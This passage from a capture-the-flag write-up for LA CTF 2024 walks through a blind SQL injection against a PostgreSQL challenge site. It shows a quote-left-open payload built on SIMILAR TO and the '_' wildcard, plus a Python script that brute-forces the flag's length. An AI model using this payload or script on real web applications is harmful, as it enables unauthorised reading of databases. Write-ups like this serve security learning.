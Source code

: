 But wait, this will cause syntax error because the single quote didn't get closed. We also can't use comment because those characters aren't in the `allowed_chars`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219162315.png)

**To bypass that, we can just leave the single quote open, like this:**
```sql
' OR name SIMILAR TO '<regular_expression_pattern>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219162328.png)

Uhh... Then? How can we use regular expression pattern to leak the flag?

According to [W3Schools](https://www.w3schools.com/sql/sql_wildcards.asp), PostgreSQL has some **wildcard characters**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/LA-CTF-2024/images/Pasted%20image%2020240219162649.png)

Since `%` is not in the `allowed_chars`, **we'll have to use `_` wildcard character**.

Now, with the knowledge of wildcard characters, we can try to leak the flag.

- Determine the flag's string length:

To find out the flag's string length, we can use `_` multiple wildcard characters. If the string length doesn't match with our wildcard characters length, it'll return `False`, otherwise returns `True`.

**To do so, we can write a Python script to automate that:**
```python
#!/usr/bin/env python3
import requests

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.SUBMIT_ROUTE = '/submit'
        self.WILDCARD_CHARACTER = '_'
        self.EXCLUDED_NAMES = ('peng', 'emperor')
        self.EXCLUDED_NAMES_LENGTH = (len(self.EXCLUDED_NAMES[0]), len(self.EXCLUDED_NAMES[1]))

    def leakFlagStringLength(self):
        for length in range(1, 100):
            print(f'[*] Finding flag string length. Current length: {length}', end='\r')

            payload = f"' OR name SIMILAR TO '{self.WILDCARD_CHARACTER * length}"
            data = {
                'username': payload
            }
            
            response = requests.post(f'{self.baseUrl}{self.SUBMIT_ROUTE}', data=data)
            isFailed = True if response.status_code == 201 else False
            if isFailed:
                continue
            if length == self.EXCLUDED_NAMES_LENGTH[0] or length == self.EXCLUDED_NAMES_LENGTH[1]:
                print(f'[*] Length {length} returned boolean value True, but the length is same as the database\'s penguin name')
                continue

            return length

if __name__ == '__main__':
    baseUrl = 'https://penguin.chall.lac.tf'
    exploit = Exploit(baseUrl)

    flagStringLength = exploit.leakFlagStringLength()
```